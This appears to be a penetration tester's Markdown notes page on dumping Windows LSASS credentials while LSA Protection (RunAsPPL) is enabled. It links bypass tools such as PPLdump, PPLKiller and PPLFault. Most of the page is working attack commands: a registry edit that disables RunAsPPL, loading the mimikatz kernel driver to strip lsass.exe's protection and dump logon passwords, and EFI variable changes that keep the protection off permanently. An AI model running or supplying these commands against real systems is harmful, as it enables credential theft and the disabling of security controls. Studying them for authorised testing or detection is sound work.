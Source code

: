 ```yaml
---
title: LSASS Dump against LSA Protection
---
```


[[notes/windows/lsass-dump]] when LSASS runs as [[notes/windows/ppl|PPL]] process.
This blocks *Security Support Providers* like the [[notes/tools/mimikatz]] `misc:memssp` module and is enabled by default on Windows 11 ([source](http://web.archive.org/web/20230530211030/https://emptydc.com/2022/06/08/windows-credential-dumping/)).

Other tools:

- [PPLdump](https://github.com/itm4n/ppldump), patched since Windows 10 21H2 Build 19044.1826 ([source](http://web.archive.org/web/20221111124550/https://itm4n.github.io/the-end-of-ppldump/))
- [PPLKiller](https://github.com/redcursorsecurityconsulting/pplkiller), loads malicious driver, worked on Windows 10.0.19042

Untested tools:

- [PPLFault](https://github.com/gabriellandau/PPLFault/), exploits TOCTOU in Windows Code Integrity to achieve code execution as WinTcb-Light
- [PPLmedic](https://github.com/itm4n/PPLmedic), also see [Bypassing PPL in Userland (again)](https://web.archive.org/web/20230318085001/https://blog.scrt.ch/2023/03/17/bypassing-ppl-in-userland-again/), patched in Windows 11 Insider ([source](https://twitter.com/depletionmode/status/1637179196270051329))

References:

- [Do you really know about LSA Protection (RunAsPPL)?](http://web.archive.org/web/20221111124635/https://itm4n.github.io/lsass-runasppl/)
- [Duping AV with handles](http://web.archive.org/web/20221111124905/https://scribe.rip/@skelsec/duping-av-with-handles-537ef985eb03)

# Discovery

Check for *LSA Protection*.

=== "builtin"
    ~~~ bat
    reg.exe query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL
    ~~~

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb ws01.corp.com --local-auth -u administrator -p 'passw0rd' -M runasppl
    ~~~

Check for Secure Boot with `msinfo32`.

# Without Secure Boot

Disable *LSA Protection* in the registry, reboot, wait for users to log back in and dump LSASS.
The registry value is ignored when Secure Boot is enabled.

~~~ bat
reg.exe add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL /t REG_DWORD /d 00000000 /f
~~~

# Against Secure Boot

Patch *LSA Protection* in memory until the next reboot trough [[notes/tools/mimikatz]] kernel driver, then proceed to dump LSASS.

~~~ bat
sc.exe create katzsvc binPath= %cd%\mimidrv.sys type= kernel start= demand
sc.exe start katzsvc
.\mimikatz.exe "!processprotect /process:lsass.exe /remove" sekurlsa::logonpasswords exit
sc.exe stop katzsvc
sc.exe delete katzsvc
~~~

Or place `mimidrv.sys` next to `mimikatz.exe` and do everything in one go.

~~~ bat
.\mimikatz.exe token::elevate privilege::debug !+ "!processprotect /process:lsass.exe /remove" sekurlsa::logonpasswords !- exit
~~~

To disable *LSA Protection* permanently set EFI variables trough the kernel driver.

~~~ bat
.\mimikatz.exe "sysenv::get /name:Kernel_Lsa_Ppl_Config /guid:{77fa9abd-0359-4d32-bd60-28f4e78f784b}" exit
.\mimikatz.exe privilege::sysenv "!+" "!sysenv::set /name:Kernel_Lsa_Ppl_Config /guid:{77fa9abd-0359-4d32-bd60-28f4e78f784b} /attributes:0x07 /data:00000000" "!-"  exit
~~~

Alternatively disable LSA protection permanently with the official [LSA Protected Process Opt-out](https://www.microsoft.com/en-us/download/details.aspx?id=40897).
It seems like this can be done with just `bcdedit.exe` as well ([source](http://web.archive.org/web/20221206133633/http://publications.alex-ionescu.com/NoSuchCon/NoSuchCon%202014%20-%20Unreal%20Mode%20-%20Breaking%20Protected%20Processes.pdf)).
